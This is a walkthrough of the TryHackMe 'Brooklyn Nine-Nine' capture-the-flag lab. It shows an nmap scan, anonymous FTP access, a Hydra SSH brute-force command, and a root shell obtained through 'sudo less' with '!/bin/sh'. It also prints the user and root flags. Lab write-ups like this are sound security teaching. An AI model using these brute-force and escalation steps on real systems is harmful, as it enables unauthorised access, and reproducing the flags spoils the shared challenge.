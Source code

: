 # Brooklyn-Nine CTF [TryHackMe-Walkthrough](https://tryhackme.com/r/room/brooklynninenine)

![brooklyn99](https://github.com/user-attachments/assets/f99597c1-133b-4e59-a5b7-5e673ec6c862)

## Task 1. Deploy and get hacking.

### 1. User flag
```
ee11cbb19052e40b07aac0ca060c23ee
```
### 2. Root flag
```
63a9f0ea7bb98050796b649e85481845
```

# 1. Let start Scanning the IP with Nmap.
```
death@esther:~/Lab/Brooklyn-Nine-Nine$ nmap 10.10.112.152 -sV -sC -Pn
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-26 16:45 IST
Nmap scan report for 10.10.112.152
Host is up (0.20s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.17.120.99
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
|_  256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 42.31 seconds
```
## Here, We can see that there are 3 open ports:
### 1. FTP on port 21.
### 2. SSH on port 22.
### 3. HTTP on port 80.

# 2. We Get something Intreasting here "FTP".
### Let try to login with default Credentials ```anonymous```:```anonymous```
![Screenshot from 2024-07-26 17-09-53](https://github.com/user-attachments/assets/987901ef-e57f-4eca-aa0f-a033a5f505f2)

### login successfully.

![Screenshot from 2024-07-26 17-23-55](https://github.com/user-attachments/assets/2157b64d-a0c8-4f3c-a9c4-c8d1d03f71f3)

### here we got a txt file. I just downloaded to my system using get command
## Here is the txt file,
![Screenshot from 2024-07-26 17-14-40](https://github.com/user-attachments/assets/94a7a2b9-4d44-4417-9ebe-5efcda90ffc0)

### We got 2 username: Amy, Jake , holt and ```Jake``` is our username for ssh as we read note we understand that jake ssh password is weak.
# 3. Let Brute-force SSH using Hydra.
```
hydra -l jake -P /home/death/wordlists/rockyou.txt 10.10.112.152 ssh -t 50
```

![Screenshot from 2024-07-26 17-28-57](https://github.com/user-attachments/assets/84d20c5b-0cfa-450d-a0d3-73cc5d77c362)

### login: ```jake```   password: ```987654321```
## Logged In as Jake successfully.
### I didn't find anything good in jake directory.
![Screenshot from 2024-07-26 17-33-30](https://github.com/user-attachments/assets/7fe2359b-1090-4afb-99e8-e72ce5c8a6c3)

## Let check for /home,
![Screenshot from 2024-07-26 17-35-01](https://github.com/user-attachments/assets/352aee94-8ae1-424b-af60-e6522a9d08db)

### Here are 3 user, Let check hold directory.

![Screenshot from 2024-07-26 17-35-40](https://github.com/user-attachments/assets/a2482abb-5dcc-45f7-b988-cbcf1c951bbc)

## Here is the User-Flag.txt
```
ee11cbb19052e40b07aac0ca060c23ee
```
# 4. Let escalate our privileges
## Let's see if we can run any commands of root.
```
sudo -l
```
![Screenshot from 2024-07-26 17-38-49](https://github.com/user-attachments/assets/5b1e2262-b361-4360-8198-b070fbc67fb1)

## Ok we can run less command as root,Let visit gtfobin
### search for less.
![Screenshot from 2024-07-26 17-41-55](https://github.com/user-attachments/assets/6acaf07a-a153-47b0-b964-c43ab13726a1)

### Here is for sudo:
![Screenshot from 2024-07-26 17-42-51](https://github.com/user-attachments/assets/e8fcbf20-d206-42b6-9e49-6c4ac7b77d35)

```
sudo less /etc/profile
!/bin/sh
```
## Let Run in terminal
![Screenshot from 2024-07-26 17-45-17](https://github.com/user-attachments/assets/ecb057f8-16b9-4381-8648-fa88ffc973b3)

## Press Enter on keyboard
![Screenshot from 2024-07-26 17-46-11](https://github.com/user-attachments/assets/c12d0bc6-3f5a-4b36-ae4b-1d33f93fd8c9)

## We got root
### Let find root flag at /root
![Screenshot from 2024-07-26 17-46-45](https://github.com/user-attachments/assets/50ed14b8-5273-4378-8ebe-944f526db71e)


```
63a9f0ea7bb98050796b649e85481845
```

# Thank you 😸
